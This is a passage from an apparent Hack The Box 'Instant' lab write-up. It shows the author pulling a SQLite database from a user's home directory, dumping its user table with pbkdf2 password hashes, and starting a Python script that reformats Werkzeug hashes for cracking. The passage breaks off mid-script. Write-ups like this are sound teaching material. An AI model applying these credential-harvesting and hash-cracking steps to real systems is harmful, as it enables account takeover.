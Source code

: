![](/assets/img/posts/htb/instant/figure14.png){: width="972" height="589" }

## Gain access root user
From the home directory of the user `shirohige`, we can see two folders: logs and projects. Continuing to explore the projects folder, I found a database file at the path `/home/shirohige/projects/mywallet/Instant-Api/mywallet/instance/instant.db`.
I downloaded this file to my machine and examined what the database contains
![](/assets/img/posts/htb/instant/figure15.png){: width="972" height="589" }
```bash
sqlite> select * from wallet_users; 
1|instantAdmin|admin@instant.htb|f0eca6e5-783a-471d-9d8f-0162cbc900db|pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978|2024-07-23 00:20:52.529887|87348|Admin|active
2|shirohige|shirohige@instant.htb|458715c9-b15e-467b-8a3d-97bc3fcf3c11|pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed|2024-08-08 20:57:47.909667|42845|instantian|active
sqlite> 
```
{: .nolineno }
Hash format: `pbkdf2:sha256:<number of iterations>$<salt>$<hash>`

Reformated werkzeug hash with python code
```python
import base64

with open ('hash.txt', 'r') as file: 
    hashes = [line.strip() for line in file.readlines() if line != '\n']

for i, hash in enumerate(hashes):
    parts = hash.split('$')
    if len (parts) != 3: 
        print (f'[!] - Unsupported hash')
        exit()
    method = parts[0].split(':')
    salt, sha_hash = parts[1:]

    base64_salt = salt
    base64_salt = base64.b64encode(salt.encode()).decode()
```